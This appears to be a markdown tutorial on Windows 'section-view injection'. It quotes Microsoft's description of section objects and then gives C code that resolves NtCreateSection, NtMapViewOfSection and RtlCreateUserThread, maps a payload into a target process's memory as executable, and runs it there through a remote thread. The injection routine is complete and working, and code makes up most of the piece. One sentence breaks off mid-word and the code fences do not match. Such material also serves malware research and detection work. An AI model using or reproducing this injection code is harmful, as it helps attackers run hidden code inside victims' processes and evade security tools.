 # Section-View Injection

[MSDN](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views) describes Sections and Views as:

> A section object represents a section of memory that can be shared. A process can use a section object to share parts of its memory address space (memory sections) with other processes. Section objects also provide the mechanism by which a process can map a file into its memory address space.

> Each memory section has one or more corresponding views. A view of a section is a part of the section that is actually visible to a process. The act of creating a view for a section is known as mapping a view of the section. Each process that is manipulating the contents of a section has its own view; a process can also have multiple views (to the same or different sections).

Essentially, this allows processes to share memory regions with each other and henceforth, we will see how we can use this mechanism to inject code into a remote process. 

## The Code

Starting off with the `main()` function, we follow the usual convention of finding the PID of the target process and then passing it on as a parameter to the `inject_section_view()` function which contains the injection code.

```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_section_view(pid);
    return 0;
}
```

The 
````c
// map section views injection
int inject_section_view(DWORD pid) {
	CLIENT_ID cid;
    NTSTATUS status; 
    HANDLE hThread = NULL;
    HANDLE hSection = NULL;
    PVOID pLocalView = NULL; 
    PVOID pRemoteView = NULL;

    // Resolve Functions
    HMODULE hNtdll = GetModuleHandle("NTDLL.DLL");
	NtCreateSection_t pNtCreateSection = (NtCreateSection_t) GetProcAddress(hNtdll, "NtCreateSection");
    NtMapViewOfSection_t pNtMapViewOfSection = (NtMapViewOfSection_t) GetProcAddress(hNtdll, "NtMapViewOfSection");
	RtlCreateUserThread_t pRtlCreateUserThread = (RtlCreateUserThread_t) GetProcAddress(hNtdll, "RtlCreateUserThread");
    FreeLibrary(hNtdll);

    // Create and map Section
	status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
    status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
    memcpy(pLocalView, payload, payload_len);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	status = pNtMapViewOfSection(hSection, hProcess, &pRemoteView, NULL, NULL, NULL, (SIZE_T *) &payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
	
    // Create thread
    status = pRtlCreateUserThread(hProcess, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
	int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hSection);
    CloseHandle(hProcess);
    return 0;
}

``

